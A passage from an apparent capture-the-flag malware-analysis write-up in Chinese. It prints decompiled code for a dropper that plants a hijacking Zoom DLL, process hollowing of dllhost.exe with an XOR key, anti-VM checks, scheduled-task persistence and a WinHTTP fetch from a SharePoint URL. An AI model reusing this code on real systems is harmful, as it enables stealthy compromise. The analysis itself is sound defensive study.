    if ( HIDWORD(v23) > 7 )
    {
      p_lpFile_2 = (void *)p_lpFile_1;
      if ( (unsigned int)(2 * HIDWORD(v23) + 2) < 0x1000 )
        return (HRSRC)sub_10005E9C(p_lpFile_2);
      p_lpFile_2 = *(void **)(p_lpFile_1 - 4);
      v12 = 2 * HIDWORD(v23) + 37;
      if ( (unsigned int)(p_lpFile_1 - (_DWORD)p_lpFile_2 - 4) <= 0x1F )
        return (HRSRC)sub_10005E9C(p_lpFile_2);
LABEL_15:
      sub_1000A8D1(v12, 0, 0, 0, 0, 0);
      JUMPOUT(0x1000252C);
    }
  }
  return hResInfo;
}
```

下文分析函数 `sub_10002230`。同上者，该函数为一个 Dropper，但释放的是真正的攻击载荷。

```c
hResInfo = FindResourceW(hModule, (LPCWSTR)0x66, L"DLL");
```

函数加载了 ID 为 `102`，类型为 DLL 的资源。

```c
// 42 = CSIDL_PROGRAM_FILESX86 (C:\Program Files (x86))
SHGetFolderPathW(0, 42, 0, 0, pszPath_);
```

随后它获得了 `C:\Program Files (x86)` 的路径。

```c
sub_10004CD0(L"\\ZoomRemoteControl\\bin\\zRCAppCore.dll", 37);
```

之后，它拼接完整路径，并将恶意 Payload 释放到 `C:\Program Files (x86)\ZoomRemoteControl\bin\zRCAppCore.dll` 处。该攻击使用了 DLL 劫持：攻击者 `payload.dll` 通过使 Zoom 在启动时加载恶意库 `zRCAppCore.dll`，从而借 Zoom 执行恶意代码。后文中，`zRCAppCore.dll` 将作为我们的分析目标。

#### Function 3「灵隐」

```c
HRSRC __usercall sub_10002530@<eax>(int a1@<ebp>)
{
  HRSRC hResInfo; // eax
  HRSRC hResInfo_1; // edi
  HGLOBAL hResData; // esi
  DWORD v4; // edi
  LPVOID v5; // esi
  __int128 *v6; // eax
  _BYTE *v7; // edx
  __int128 *p_p_lpFile; // eax
  void *p_lpFile_2; // edx
  int v10; // ecx
  int v11; // [esp-320h] [ebp-32Ch]
  int v12; // [esp-31Ch] [ebp-328h]
  int v13; // [esp-318h] [ebp-324h]
  _BYTE *v14; // [esp-304h] [ebp-310h]
  unsigned int n7; // [esp-2F0h] [ebp-2FCh]
  _BYTE v16[4]; // [esp-2ECh] [ebp-2F8h]
  int v17; // [esp-2E8h] [ebp-2F4h] BYREF
  int v18; // [esp-2E4h] [ebp-2F0h] BYREF
  void **p_??_7ios_base@std@@6B@; // [esp-280h] [ebp-28Ch] BYREF
  __int128 p_lpFile_1; // [esp-238h] [ebp-244h] BYREF
  __int64 v21; // [esp-228h] [ebp-234h]
  WCHAR pszPath_[264]; // [esp-220h] [ebp-22Ch] BYREF
  int *v23; // [esp-10h] [ebp-1Ch]
  struct _EXCEPTION_REGISTRATION_RECORD *ExceptionList; // [esp-Ch] [ebp-18h]
  void *v25; // [esp-8h] [ebp-14h]
  int v26; // [esp-4h] [ebp-10h]
  int v27; // [esp+0h] [ebp-Ch]
  void *v28; // [esp+4h] [ebp-8h]
  int v29; // [esp+8h] [ebp-4h] BYREF
  void *retaddr; // [esp+Ch] [ebp+0h]

  v27 = a1;
  v28 = retaddr;
  v26 = -1;
  v25 = &loc_1001D986;
  ExceptionList = NtCurrentTeb()->NtTib.ExceptionList;
  v23 = &v29;
  hResInfo = FindResourceW(hModule, (LPCWSTR)0x67, L"SC");
  hResInfo_1 = hResInfo;
  if ( hResInfo )
  {
    hResData = LoadResource(hModule, hResInfo);
    v4 = SizeofResource(hModule, hResInfo_1);
    v5 = LockResource(hResData);
    SHGetFolderPathW(0, 42, 0, 0, pszPath_);
    sub_100028D0(pszPath_);
    v26 = 0;
    v6 = (__int128 *)sub_10004CD0(L"\\ZoomRemoteControl\\bin\\zRC.dat", 30);
    v21 = 0;
    p_lpFile_1 = 0;
    p_lpFile_1 = *v6;
    v21 = *((_QWORD *)v6 + 2);
    *((_DWORD *)v6 + 4) = 0;
    *((_DWORD *)v6 + 5) = 7;
    *(_WORD *)v6 = 0;
    LOBYTE(v26) = 2;
    if ( n7 > 7 )
    {
      v7 = v14;
      if ( 2 * n7 + 2 >= 0x1000 )
      {
        v7 = (_BYTE *)*((_DWORD *)v14 - 1);
        if ( (unsigned int)(v14 - v7 - 4) > 0x1F )
        {
          sub_1000A8D1(2 * n7 + 37, 0, 0, 0, 0, 0);
          goto LABEL_15;
        }
      }
      sub_10005E9C(v7);
    }
    sub_10007A70(&v17, 0, 176);
    p_p_lpFile = &p_lpFile_1;
    if ( HIDWORD(v21) > 7 )
      p_p_lpFile = (__int128 *)p_lpFile_1;
    sub_10004160(p_p_lpFile, v11, v12, v13);
    *(int *)((char *)&v17 + *(_DWORD *)(v17 + 4)) = (int)&std::ofstream::`vftable';
    *(_DWORD *)&v16[*(_DWORD *)(v17 + 4)] = *(_DWORD *)(v17 + 4) - 104;
    LOBYTE(v26) = 3;
    sub_100036F0(v5, v4, 0);
    if ( !sub_10004670(&v18) )
      sub_10001D10(
        *(int *)((char *)&v17 + *(_DWORD *)(v17 + 4) + 12)
      | (4 * (*(int *)((char *)&v17 + *(_DWORD *)(v17 + 4) + 56) == 0) + 2),
        0);
    *(int *)((char *)&v17 + *(_DWORD *)(v17 + 4)) = (int)&std::ofstream::`vftable';
    *(_DWORD *)&v16[*(_DWORD *)(v17 + 4)] = *(_DWORD *)(v17 + 4) - 104;
    sub_10003640();
    *(int *)((char *)&v17 + *(_DWORD *)(v17 + 4)) = (int)&std::ostream::`vftable';
    *(_DWORD *)&v16[*(_DWORD *)(v17 + 4)] = *(_DWORD *)(v17 + 4) - 8;
    LOBYTE(v26) = 4;
    p_??_7ios_base@std@@6B@ = &std::ios_base::`vftable';
    hResInfo = (HRSRC)sub_10005A57(&p_??_7ios_base@std@@6B@);
    if ( HIDWORD(v21) > 7 )
    {
      p_lpFile_2 = (void *)p_lpFile_1;
      if ( (unsigned int)(2 * HIDWORD(v21) + 2) < 0x1000 )
        return (HRSRC)sub_10005E9C(p_lpFile_2);
      p_lpFile_2 = *(void **)(p_lpFile_1 - 4);
      v10 = 2 * HIDWORD(v21) + 37;
      if ( (unsigned int)(p_lpFile_1 - (_DWORD)p_lpFile_2 - 4) <= 0x1F )
        return (HRSRC)sub_10005E9C(p_lpFile_2);
LABEL_15:
      sub_1000A8D1(v10, 0, 0, 0, 0, 0);
      JUMPOUT(0x1000282C);
    }
  }
  return hResInfo;
}
```

下文分析函数 `sub_10002530`。

```c
// 0x67 = 103 (十进制)
hResInfo = FindResourceW(hModule, (LPCWSTR)0x67, L"SC");
```

该函数读取一个 ID 为 `103` 的 `SC` 类型资源。

```c
sub_10004CD0(L"\\ZoomRemoteControl\\bin\\zRC.dat", 30);
```

随后将其释放到 `C:\Program Files (x86)\ZoomRemoteControl\bin\zRC.dat` 中。考虑到后缀名为 `.dat`，我们认为它可能是加密的数据或二进制代码。

### 使用 Resource Hacker 提取文件

根据前文，我们在 **Resource Hacker** 中加载 `payload.dll`，并从中提取出我们所需的两个文件，其一为 `DLL` 中 `ID` 为 `102` 的 `zRCAppCore.dll`，另一为 `SC` 中 `ID` 为 `103` 的 `zRC.dat`。

例如，提取 `zRCAppCore.dll` 时，我们在 Resource Hacker 的左侧列表中右键 `DLL` 下的 `102 : 2052`，并点击 "Save .bin resource..." 以将目标文件提取并保存到工作目录下。



### 分析 `zRCAppCore.dll`

提取结束后，我们在 IDA Pro 中打开 `zRCAppCore.dll`，从入口点函数 `DllEntryPoint` 展开分析。

```c
BOOL __stdcall DllEntryPoint(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    if ( fdwReason == 1 )
        sub_100018BE();
    return sub_100015F2(hinstDLL, fdwReason, lpReserved);
}
```

其中 `sub_100018BE()` 是 Stack Canary，故我们继续分析 `sub_100015F2`。

```c
int __cdecl sub_100015F2(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    void *lpReserved_1; // ebx
    int v5; // esi
    int v6; // eax

    if ( !fdwReason && dword_1001B908 <= 0 )
        return 0;
    if ( fdwReason != 1 && fdwReason != 2 )
    {
        lpReserved_1 = lpReserved;
LABEL_9:
        v6 = sub_100013B0(hinstDLL, fdwReason, lpReserved_1);
        v5 = v6;
        if ( fdwReason == 1 && !v6 )
        {
            sub_100013B0(hinstDLL, 0, lpReserved_1);
            sub_1000153B(lpReserved_1 != 0);
            sub_10001700(hinstDLL, 0, lpReserved_1);
        }
        if ( !fdwReason || fdwReason == 3 )
        {
            v5 = sub_100013DE(hinstDLL, fdwReason, lpReserved_1);
        if ( v5 )
            return sub_10001700(hinstDLL, fdwReason, lpReserved_1);
        }
        return v5;
    }
    lpReserved_1 = lpReserved;
    v5 = sub_10001700(hinstDLL, fdwReason, lpReserved);
    if ( v5 )
    {
        v5 = sub_100013DE(hinstDLL, fdwReason, lpReserved);
        if ( v5 )
          goto LABEL_9;
    }
    return v5;
}
```

分析可得 `LABEL_9` 处调起的 `sub_100013B0` 为该 `.dll` 文件的主要业务逻辑函数，故我们继续分析该函数。

```c
int __stdcall sub_100013B0(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    if ( fdwReason == 1 )
    {
        sub_10001050();
        ExitProcess(0);
    }
    return 1;
}
```

继续跟踪 `sub_10001050`。简要分析后可知，该函数是一段典型的进程空心化 / 傀儡进程（Process Hollowing）恶意代码，这是一种注入技术，用来在合法进程的掩护下执行恶意代码。下面对该函数的行为进行剖析：

```c
BOOL sub_10001050()
{
  HMODULE hModule; // eax
  _BYTE *v1; // eax
  HANDLE hFile; // esi
  _DWORD *lpBuffer; // edi
  SIZE_T nNumberOfBytesToRead_1; // esi
  char *v5; // esi
  HMODULE hModule_1; // eax
  FARPROC NtUnmapViewOfSection; // eax
  LPVOID *v8; // edx
  void *lpBaseAddress; // eax
  int v10; // esi
  SIZE_T nSize; // [esp-8h] [ebp-688h]
  SIZE_T nNumberOfBytesToRead; // [esp+8h] [ebp-678h]
  signed int nNumberOfBytesToReada; // [esp+8h] [ebp-678h]
  char *v15; // [esp+Ch] [ebp-674h]
  _PROCESS_INFORMATION ProcessInformation; // [esp+10h] [ebp-670h] BYREF
  int Buffer; // [esp+2Ch] [ebp-654h] BYREF
  CONTEXT Context; // [esp+30h] [ebp-650h] BYREF
  DWORD NumberOfBytesRead; // [esp+304h] [ebp-37Ch] BYREF
  _STARTUPINFOA StartupInfo; // [esp+308h] [ebp-378h] BYREF
  _DWORD zRC.dat_[3]; // [esp+354h] [ebp-32Ch] BYREF
  CHAR Filename[264]; // [esp+360h] [ebp-320h] BYREF
  char v23[264]; // [esp+468h] [ebp-218h] BYREF
  CHAR FileName[268]; // [esp+570h] [ebp-110h] BYREF

  Context.ContextFlags = 65543;
  memset(&StartupInfo.lpReserved, 0, 40);
  ProcessInformation = 0;
  StartupInfo.cb = 68;
  StartupInfo.dwFlags = 1;
  memset(&StartupInfo.wShowWindow, 0, 20);
  hModule = GetModuleHandleW(L"zRCAppCore.dll");
  if ( GetModuleFileNameA(hModule, Filename, 0x104u) )
  {
    v1 = (_BYTE *)sub_10002120(Filename, 92);
    if ( v1 )
    {
      *v1 = 0;
      sub_10006410(v23, 260, Filename);
      strcpy((char *)zRC.dat_, "zRC.dat");
      sub_10001010(FileName, 260, "%s\\%s", v23, (const char *)zRC.dat_);
    }
  }
  CreateProcessA(0, (LPSTR)"C:\\Windows\\System32\\dllhost.exe", 0, 0, 0, 4u, 0, 0, &StartupInfo, &ProcessInformation);
  hFile = CreateFileA(FileName, 0x80000000, 1u, 0, 3u, 0, 0);
  nNumberOfBytesToRead = GetFileSize(hFile, 0);
  lpBuffer = VirtualAlloc(0, nNumberOfBytesToRead, 0x3000u, 4u);
  ReadFile(hFile, lpBuffer, nNumberOfBytesToRead, &NumberOfBytesRead, 0);
  CloseHandle(hFile);
  nNumberOfBytesToRead_1 = 0;
  strcpy((char *)zRC.dat_, "tf7*TV&8un");
  if ( nNumberOfBytesToRead )
  {
    do
    {
      *((_BYTE *)lpBuffer + nNumberOfBytesToRead_1) ^= *((_BYTE *)zRC.dat_ + nNumberOfBytesToRead_1 % 9);
      ++nNumberOfBytesToRead_1;
    }
    while ( nNumberOfBytesToRead_1 < nNumberOfBytesToRead );
  }
  v5 = (char *)lpBuffer + lpBuffer[15];
  v15 = v5;
  GetThreadContext(ProcessInformation.hThread, &Context);
  ReadProcessMemory(ProcessInformation.hProcess, (LPCVOID)(Context.Ebx + 8), &Buffer, 4u, 0);
  hModule_1 = GetModuleHandleA("ntdll.dll");
  NtUnmapViewOfSection = GetProcAddress(hModule_1, "NtUnmapViewOfSection");
  v8 = (LPVOID *)(v5 + 52);
  if ( Buffer == *((_DWORD *)v5 + 13) )
  {
    ((void (__stdcall *)(HANDLE, int))NtUnmapViewOfSection)(ProcessInformation.hProcess, Buffer);
    v8 = (LPVOID *)(v5 + 52);
  }
  lpBaseAddress = VirtualAllocEx(ProcessInformation.hProcess, *v8, *((_DWORD *)v5 + 20), 0x3000u, 0x40u);
  nSize = *((_DWORD *)v5 + 21);
  zRC.dat_[0] = lpBaseAddress;
  WriteProcessMemory(ProcessInformation.hProcess, lpBaseAddress, lpBuffer, nSize, 0);
  nNumberOfBytesToReada = 0;
  if ( *((_WORD *)v5 + 3) )
  {
    v10 = 0;
    do
    {
      WriteProcessMemory(
        ProcessInformation.hProcess,
        (LPVOID)(zRC.dat_[0] + *(_DWORD *)((char *)&lpBuffer[v10 + 65] + lpBuffer[15])),
        (char *)lpBuffer + *(_DWORD *)((char *)&lpBuffer[v10 + 67] + lpBuffer[15]),
        *(_DWORD *)((char *)&lpBuffer[v10 + 66] + lpBuffer[15]),
        0);
      v10 += 10;
      ++nNumberOfBytesToReada;
    }
    while ( nNumberOfBytesToReada < *((unsigned __int16 *)v15 + 3) );
    v5 = v15;
  }
  Context.Eax = zRC.dat_[0] + *((_DWORD *)v5 + 10);
  WriteProcessMemory(ProcessInformation.hProcess, (LPVOID)(Context.Ebx + 8), v5 + 52, 4u, 0);
  SetThreadContext(ProcessInformation.hThread, &Context);
  ResumeThread(ProcessInformation.hThread);
  CloseHandle(ProcessInformation.hThread);
  return CloseHandle(ProcessInformation.hProcess);
}
```

```c
GetModuleFileNameA(hModule, Filename, 0x104u); // 获取当前 DLL 路径
// ... 字符串处理 ...
strcpy((char *)zRC.dat_, "zRC.dat"); // 明文字符串
sub_10001010(FileName, 260, "%s\\%s", v23, (const char *)zRC.dat_); // 拼接成 zRC.dat 的完整路径
```

首先，函数构造了 `zRC.dat` 的路径。

```c
CreateProcessA(0, (LPSTR)"C:\\Windows\\System32\\dllhost.exe", ..., 4u, ...);
```

其次，函数启动了一个合法系统进程 `dllhost.exe`，但以参数 `4u` 即 `CREATE_SUSPENDED`，即，启动后，线程挂起。

```c
hFile = CreateFileA(FileName, ...);
// ... 读取文件到 lpBuffer ...

strcpy((char *)zRC.dat_, "tf7*TV&8un"); // 密钥
if ( nNumberOfBytesToRead )
{
    do
    {
        // 异或运算 (XOR)
        *((_BYTE *)lpBuffer + nNumberOfBytesToRead_1) ^= *((_BYTE *)zRC.dat_ + nNumberOfBytesToRead_1 % 9);
        ++nNumberOfBytesToRead_1;
    }
    while ( ... );
}
```

随后，函数读取并解密 Payload。这里，函数使用了循环异或运算，以字符串 `tf7*TV&8un` 的前 9 个字符（考虑到 `% 9`）作为密钥。

```c
NtUnmapViewOfSection(...); // 挖空原进程内存
VirtualAllocEx(...);       // 在原进程申请新内存
WriteProcessMemory(...);   // 把解密后的 Payload 写入傀儡进程
SetThreadContext(...);     // 修改线程上下文 (EIP/RIP) 指向 Payload 入口
ResumeThread(...);         // 恢复线程，傀儡复活
```

最后，函数卸载目标进程的原始映像，分配新内存，修复重定位和入口点，并最终恢复 `dllhost.exe` 的执行。这样，恶意代码在 `dllhost.exe` 内部执行，但其外观上是合法的 Windows 进程，恶意代码以此做到隐蔽。

### 解密 `zRC.dat`

基于上文的分析，我们使用同样的异或算法解密 `zRC.dat` 即可。这里给出一份可用的 Python 代码。解密后可得，解密得到的 `zRC_decrypted.bin` 确为 PE 文件。

```python
def decrypt_payload():
    try:
        with open("zRC.dat", "rb") as f:
            data = bytearray(f.read())
    except FileNotFoundError:
        print("错误：找不到 zRC.dat 文件，请确认文件路径。")
        return

    # 密钥字符串
    key_str = "tf7*TV&8un"
    # 根据 IDA 代码：nNumberOfBytesToRead_1 % 9
    # 意味着循环使用密钥的前 9 个字节
    key_len = 9 
    
    print(f"[*] 开始解密，文件大小: {len(data)} 字节")
    print(f"[*] 使用密钥: {key_str[:key_len]}")

    for i in range(len(data)):
        # 异或操作
        data[i] ^= ord(key_str[i % key_len])

    # 保存解密后的文件
    output_filename = "zRC_decrypted.bin" # 既然注入到 dllhost.exe，大概率是个 EXE
    with open(output_filename, "wb") as f:
        f.write(data)
    
    print(f"[+] 解密完成！已保存为: {output_filename}")
    
    # 简单检查一下文件头
    if data[:2] == b'MZ':
        print("[+] 文件头检测: MZ (这是一个 PE 文件)")
    else:
        print(f"[-] 文件头检测: {data[:2]} (可能不是 PE 文件，或者是 Shellcode)")

if __name__ == "__main__":
    decrypt_payload()
```

## Stage III「升」

### 脱壳 `zRC_decrypted.bin`

使用 Detect It Easy 打开 `zRC_decrypted.bin`，发现其使用了 UPX 加壳。



该壳未经过修改，因此直接使用 UPX 脱壳即可。

```plain
PS S:\ISCTF_2025\Virus_Analysis\ISCTF> D:\upx-5.0.2-win64\upx.exe -d .\zRC_decrypted.bin
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2025
UPX 5.0.2       Markus Oberhumer, Laszlo Molnar & John Reiser   Jul 20th 2025

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
    173056 <-     80384   46.45%    win32/pe     zRC_decrypted.bin

Unpacked 1 file.
```

### 寻找主函数和网络相关函数

从 `start` 函数开始，尝试查找主函数。

```c
int start()
{
  sub_406FB2();
  return sub_4067E7();
}
```

其中 `sub_406FB2` 仍然为 **Stack Canary** 代码。继续分析 `sub_4067E7`。

```c
int __usercall sub_4067E7@<eax>(UINT uExitCode_1@<esi>)
{
  char v1; // bl
  _DWORD *v3; // eax
  _DWORD *v4; // esi
  _DWORD *v5; // eax
  _DWORD *v6; // esi
  int v7; // edi
  int v8; // esi
  _DWORD *v9; // eax
  char v10; // [esp+10h] [ebp-24h]
  UINT uExitCode; // [esp+14h] [ebp-20h]

  if ( !(unsigned __int8)sub_406509(1) || (v1 = 0, v10 = sub_4064D7(), n2 == 1) )
  {
    sub_406D55(7);
    goto LABEL_19;
  }
  if ( n2 )
  {
    v1 = 1;
  }
  else
  {
    n2 = 1;
    if ( sub_40DDE1(&unk_41C1E0, &unk_41C200) )
      return 255;
    sub_40DDB6(&unk_41C1BC, &unk_41C1DC);
    n2 = 2;
  }
  sub_406660(v10);
  v3 = (_DWORD *)sub_407062();
  v4 = v3;
  if ( *v3 && (unsigned __int8)sub_4065C9(v3) )
    ((void (__thiscall *)(_DWORD, _DWORD, int, _DWORD))*v4)(*v4, 0, 2, 0);
  v5 = (_DWORD *)sub_407068();
  v6 = v5;
  if ( *v5 && (unsigned __int8)sub_4065C9(v5) )
    sub_40D266(*v6);
  v7 = sub_40D854();
  v8 = *(_DWORD *)sub_40DE6B();
  v9 = (_DWORD *)sub_40DE65();
  uExitCode_1 = sub_402B60(*v9, v8, v7);
  if ( !(unsigned __int8)sub_406E6F() )
  {
LABEL_19:
    sub_40D28C(uExitCode_1);
    sub_40D250(uExitCode);
    __debugbreak();
  }
  if ( !v1 )
    sub_40D241();
  sub_40667D(1, 0);
  return uExitCode_1;
}
```

注意到最终返回的 `uExitCode_1` 由

```c
uExitCode_1 = sub_402B60(*v9, v8, v7);
```

产生，我们断言 `sub_402B60` 为主函数，它在最后调用了 `sub_402450` 进行进一步操作。下面进行分析。

```c
int sub_402B60()
{
  int v6; // eax
  ULONGLONG TickCount64; // kr00_8
  ULONGLONG v8; // rax
  bool v9; // cf
  ULONGLONG n0x1388; // rax
  SHELLEXECUTEINFOW SystemInfo; // [esp+24h] [ebp-6CCh] BYREF
  SHELLEXECUTEINFOW pExecInfo; // [esp+60h] [ebp-690h] BYREF
  HKEY phkResult; // [esp+9Ch] [ebp-654h] BYREF
  _MEMORYSTATUSEX Buffer; // [esp+A0h] [ebp-650h] BYREF
  DWORD cbData[3]; // [esp+E8h] [ebp-608h] BYREF
  char v18; // [esp+F4h] [ebp-5FCh]
  WCHAR Data[260]; // [esp+F8h] [ebp-5F8h] BYREF
  _OWORD v20[4]; // [esp+300h] [ebp-3F0h] BYREF
  __int16 v21; // [esp+340h] [ebp-3B0h]
  _BYTE v22[938]; // [esp+342h] [ebp-3AEh] BYREF

  _EAX = 0;
  __asm { cpuid }
  cbData[0] = _EBX;
  cbData[1] = _EDX;
  cbData[2] = _ECX;
  v18 = 0;
  if ( sub_407730(cbData, "VMware")
    || sub_407730(cbData, "VBox")
    || sub_407730(cbData, "KVM")
    || sub_407730(cbData, "Microsoft Hv")
    || sub_407730(cbData, "Xen") )
  {
    return 0;
  }
  cbData[0] = 256;
  if ( !RegOpenKeyExA(HKEY_LOCAL_MACHINE, "HARDWARE\\DESCRIPTION\\System\\BIOS", 0, 0x20019u, &phkResult) )
  {
    if ( !RegQueryValueExA(phkResult, "SystemProductName", 0, 0, (LPBYTE)Data, cbData)
      && (sub_407730(Data, "Virtual")
       || sub_407730(Data, "VMware")
       || sub_407730(Data, "VBox")
       || sub_407730(Data, "Hyper-V")
       || sub_407730(Data, "Cloud")) )
    {
      v6 = 0;
      goto LABEL_19;
    }
    RegCloseKey(phkResult);
  }
  v6 = 1;
LABEL_19:
  if ( v6 )
  {
    Buffer.dwLength = 64;
    GlobalMemoryStatusEx(&Buffer);
    if ( HIDWORD(Buffer.ullTotalPhys) >= 2 )
    {
      GetSystemInfo((LPSYSTEM_INFO)&SystemInfo);
      if ( SystemInfo.lpParameters >= (LPCWSTR)4 )
      {
        TickCount64 = GetTickCount64();
        cbData[0] = HIDWORD(TickCount64);
        Sleep(0x1388u);
        v8 = GetTickCount64();
        v9 = v8 < __PAIR64__(cbData[0], TickCount64);
        n0x1388 = v8 - __PAIR64__(cbData[0], TickCount64);
        if ( HIDWORD(n0x1388) || !v9 && (unsigned int)n0x1388 >= 0x1388 )
        {
          SystemInfo.cbSize = 60;
          SystemInfo.fMask = 64;
          SystemInfo.hwnd = 0;
          SystemInfo.lpVerb = L"open";
          SystemInfo.lpFile = L"schtasks";
          SystemInfo.lpParameters = L"/query /tn ZoomUpdater";
          memset(&SystemInfo.lpDirectory, 0, 36);
          phkResult = 0;
          if ( ShellExecuteExW(&SystemInfo) && SystemInfo.hProcess )
          {
            WaitForSingleObject(SystemInfo.hProcess, 0xFFFFFFFF);
            GetExitCodeProcess(SystemInfo.hProcess, (LPDWORD)&phkResult);
            CloseHandle(SystemInfo.hProcess);
          }
          if ( phkResult )
          {
            SHGetFolderPathW(0, 42, 0, 0, Data);
            sub_40AEF0(Data, 260, L"\\ZoomRemoteControl\\bin\\ZoomRemoteControl.exe");
            v21 = 0;
            v20[0] = xmmword_4258D8;
            v20[1] = xmmword_4258E8;
            v20[2] = xmmword_4258F8;
            v20[3] = xmmword_425908;
            sub_407F20(v22, 0, 934);
            LODWORD(Buffer.ullAvailExtendedVirtual) = 77;
            *(_OWORD *)&Buffer.dwLength = xmmword_42591C;
            *(_OWORD *)&Buffer.ullAvailPhys = xmmword_42592C;
            *(_OWORD *)&Buffer.ullAvailPageFile = xmmword_42593C;
            Buffer.ullAvailVirtual = 0x45005400530059LL;
            sub_40AEF0(v20, 500, Data);
            sub_40AEF0(v20, 500, &Buffer);
            pExecInfo.cbSize = 60;
            pExecInfo.lpParameters = (LPCWSTR)v20;
            pExecInfo.fMask = 64;
            pExecInfo.hwnd = 0;
            pExecInfo.lpVerb = L"open";
            pExecInfo.lpFile = L"schtasks";
            memset(&pExecInfo.lpDirectory, 0, 36);
            ShellExecuteExW(&pExecInfo);
          }
          sub_402450();
        }
      }
    }
  }
  return 0;
}
```

```c
int __usercall sub_402450@<eax>(int a1@<ebp>)
{
  void *hRequest; // edi
  BOOL v2; // eax
  char *lpBuffer; // esi
  unsigned int v4; // edi
  __int128 *v5; // esi
  char *v6; // esi
  int v7; // eax
  unsigned int i; // ecx
  _DWORD *v9; // eax
  _BYTE *v10; // edx
  unsigned int v11; // ecx
  _BYTE *v12; // edx
  void *v13; // edx
  unsigned int n0xF_5; // ecx
  void *v15; // edx
  int v16; // esi
  _DWORD *hSession_1; // esi
  _DWORD *v18; // edi
  int s; // esi
  const CHAR *pszAddrString; // eax
  void *v21; // edx
  unsigned int v22; // ecx
  _BYTE *v23; // edx
  void *v24; // edx
  const char *buf; // eax
  void *buf_2; // edx
  _BYTE *v28; // [esp+0h] [ebp-2ACh]
  unsigned int n0xF_2; // [esp+14h] [ebp-298h]
  _BYTE *v30; // [esp+18h] [ebp-294h]
  unsigned int n0xF_1; // [esp+2Ch] [ebp-280h]
  __int128 v32; // [esp+30h] [ebp-27Ch] BYREF
  int v33; // [esp+40h] [ebp-26Ch]
  unsigned int n0xF_4; // [esp+44h] [ebp-268h]
  __int128 v35; // [esp+48h] [ebp-264h] BYREF
  int v36; // [esp+58h] [ebp-254h]
  unsigned int n0xF_3; // [esp+5Ch] [ebp-250h]
  int v38; // [esp+60h] [ebp-24Ch]
  void *hRequest_1; // [esp+64h] [ebp-248h]
  char *lpBuffer_1; // [esp+68h] [ebp-244h]
  HINTERNET hConnect; // [esp+6Ch] [ebp-240h]
  _DWORD *hSession; // [esp+70h] [ebp-23Ch] BYREF
  DWORD lpdwNumberOfBytesAvailable_; // [esp+74h] [ebp-238h] BYREF
  struct WSAData lpWSAData_; // [esp+78h] [ebp-234h] BYREF
  struct sockaddr name_; // [esp+20Ch] [ebp-A0h] BYREF
  _DWORD v46[5]; // [esp+21Ch] [ebp-90h] BYREF
  unsigned int n0xF_6; // [esp+230h] [ebp-7Ch]
  _DWORD *v48; // [esp+234h] [ebp-78h] BYREF
  unsigned int v49; // [esp+244h] [ebp-68h]
  unsigned int n0xF; // [esp+248h] [ebp-64h]
  DWORD lpdwNumberOfBytesRead_; // [esp+24Ch] [ebp-60h] BYREF
  __int128 v52; // [esp+250h] [ebp-5Ch] BYREF
  int v53; // [esp+260h] [ebp-4Ch]
  unsigned int n15; // [esp+264h] [ebp-48h]
  __int128 buf_1; // [esp+268h] [ebp-44h] BYREF
  int len; // [esp+278h] [ebp-34h]
  unsigned int n0xF_7; // [esp+27Ch] [ebp-30h]
  __int64 v58; // [esp+280h] [ebp-2Ch] BYREF
  int v59; // [esp+288h] [ebp-24h]
  int *v60; // [esp+290h] [ebp-1Ch]
  struct _EXCEPTION_REGISTRATION_RECORD *ExceptionList; // [esp+294h] [ebp-18h]
  void *v62; // [esp+298h] [ebp-14h]
  int v63; // [esp+29Ch] [ebp-10h]
  int v64; // [esp+2A0h] [ebp-Ch]
  void *v65; // [esp+2A4h] [ebp-8h]
  int v66; // [esp+2A8h] [ebp-4h] BYREF
  void *retaddr; // [esp+2ACh] [ebp+0h]

  v64 = a1;
  v65 = retaddr;
  v63 = -1;
  v62 = &loc_41B9C4;
  ExceptionList = NtCurrentTeb()->NtTib.ExceptionList;
  v60 = &v66;
  hSession = WinHttpOpen(
               L"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/"
                "537.36 Edg/142.0.0.0",
               0,
               0,
               0,
               0);
  hConnect = WinHttpConnect(hSession, L"colonised-my.sharepoint.com", 0x1BBu, 0);
  hRequest = WinHttpOpenRequest(
               hConnect,
               L"GET",
               L"/personal/f00001111_colonised_onmicrosoft_com/_layouts/52/download.aspx?share=EQsrTSD_4ehGvYTXbmU5zR0B0lk"
                "4L-x0r8yGztFlye2j9Q",
               0,
               0,
               0,
               0x800000u);
  hRequest_1 = hRequest;
  v2 = WinHttpSendRequest(hRequest, 0, 0, 0, 0, 0, 0);
  if ( v2 )
    v2 = WinHttpReceiveResponse(hRequest, 0);
  v53 = 0;
  v52 = 0;
  n15 = 15;
  LOBYTE(v52) = 0;
  v63 = 0;
  if ( v2 )
  {
    lpdwNumberOfBytesAvailable_ = 0;
    do
    {
      WinHttpQueryDataAvailable(hRequest, &lpdwNumberOfBytesAvailable_);
      if ( !lpdwNumberOfBytesAvailable_ )
        break;
      lpBuffer = (char *)sub_4066F6(lpdwNumberOfBytesAvailable_ + 1);
      lpBuffer_1 = lpBuffer;
      sub_407F20(lpBuffer, 0, lpdwNumberOfBytesAvailable_ + 1);
      lpdwNumberOfBytesRead_ = 0;
      if ( WinHttpReadData(hRequest, lpBuffer, lpdwNumberOfBytesAvailable_, &lpdwNumberOfBytesRead_) )
      {
        v4 = strlen(lpBuffer);
        if ( v4 > n15 - v53 )
        {
          LOBYTE(v38) = 0;
          sub_404BF0(v4, v38, lpBuffer, v4);
        }
        else
        {
          v5 = &v52;
          if ( n15 > 0xF )
            v5 = (__int128 *)v52;
          v6 = (char *)v5 + v53;
          v53 += v4;
          sub_4079A0(v6, lpBuffer_1, v4);
          v6[v4] = 0;
          lpBuffer = lpBuffer_1;
        }
        hRequest = hRequest_1;
      }
      sub_406260(lpBuffer);
    }
    while ( lpdwNumberOfBytesAvailable_ );
  }
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  v33 = 0;
  n0xF_4 = 0;
  v32 = 0;
  sub_4046D0("lD1bZ0", 6);
  LOBYTE(v63) = 1;
  v36 = 0;
  v35 = 0;
  n0xF_3 = 0;
  sub_4046D0("E9dE7d", 6);
  LOBYTE(v63) = 2;
  sub_402080(&v35, &v32);
  LOBYTE(v63) = 3;
